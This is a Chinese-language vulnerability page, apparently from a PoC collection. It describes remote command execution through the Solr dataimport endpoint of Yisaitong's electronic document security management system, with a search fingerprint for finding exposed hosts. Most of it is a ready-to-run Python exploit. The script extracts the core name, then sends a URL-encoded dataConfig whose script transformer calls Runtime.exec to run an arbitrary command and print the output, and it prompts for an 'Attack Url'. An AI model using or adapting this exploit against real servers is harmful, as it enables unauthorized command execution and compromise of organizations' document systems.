


# 亿赛通 电子文档安全管理系统 dataimport 远程命令执行漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 dataimport 存在远程命令执行漏洞，攻击者通过构造特定的请求可执行任意命令

## 漏洞影响

```
亿赛通 电子文档安全管理系统
```

## 网络测绘

```
title="电子文档安全管理系统"
```

## 漏洞复现

登录页面如下


先获取 core name


访问路径


```plain
/solr/admin/cores
```





使用POC执行whoami




## 漏洞POC


```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 亿赛通 电子文档安全管理系统 dataimport 远程命令执行漏洞            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/solr/admin/cores"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/solr/admin/cores.... \033[0m".format(target_url))
        if 'responseHeader' in response.text and response.status_code == 200:
            result = re.search(
                r'<str name="name">([\s\S]*?)</str><str name="instanceDir">', response.text, re.I)
            core_name = result.group(1)
            print("\033[36m[o] 获取core_name : {} \033[0m".format(core_name))
            POC_2(target_url, core_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, core_name):
    cmd = "whoami"
    vuln_url = target_url + "/solr/{}/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22{}%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20".format(core_name, cmd)
    files = {
        'stream.body': '''<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>'''
    }
    try:
        print("\033[36m[o] 正在执行 whoami ... \033[0m".format(target_url))
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, files=files, verify=False, timeout=5)
        cmd_response = re.search(
                r'documents"><lst><arr name="title"><str>([\s\S]*?)</str></arr></lst>', response.text, re.I)
        cmd_response = cmd_response.group(1)
        if response.status_code == 200 and cmd_response:
            print("\033[36m[o] 命令响应为:\n{} \033[0m".format(cmd_response))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```